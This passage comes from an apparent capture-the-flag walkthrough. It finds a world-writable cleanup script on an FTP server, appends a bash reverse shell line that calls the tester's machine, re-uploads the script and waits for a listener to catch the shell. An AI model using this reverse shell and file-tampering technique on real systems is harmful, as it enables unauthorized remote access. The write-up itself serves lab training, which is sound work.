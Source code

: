 The work-flow of the file is not the main point! Therefore, the set permission of the file is what we should pay attention on:

```bash
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
```

It could be ********read********, ********write********(modify), **************execute************** by anyone (`rwx`) → Therefore, we could modify it to a reverse shell.

# Exploit → Gain Access → Get flag

Download the ****************clean.sh**************** bash file to the local machine → Append it with this payload:

```bash
bash -i >& /dev/tcp/<LOCAL_MACHINE_IP>/<PORT> 0>&1
```

Then use `put` on the `ftp` connection to re-upload the file:

```bash
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||44552|)
150 Ok to send data.
100% |************************************************************************************************************************************************|   380        7.10 MiB/s    00:00 ETA
226 Transfer complete.
380 bytes sent in 00:00 (0.81 KiB/s)
```

Verify that the content has been changed:

```bash
ftp> more clean.sh
#!/bin/bash

#tmp_files=0
#echo $tmp_files
#if [ $tmp_files=0 ]
#then
#        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
#else
#    for LINE in $tmp_files; do
#        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
#fi

#echo "Hello"

bash -i >& /dev/tcp/10.9.67.75/4444 0>&1
```

Meanwhile, start the ******************Listener****************** on the port which is defined in the payload. Wait for awhile and the reverse shell then establishes the connection:
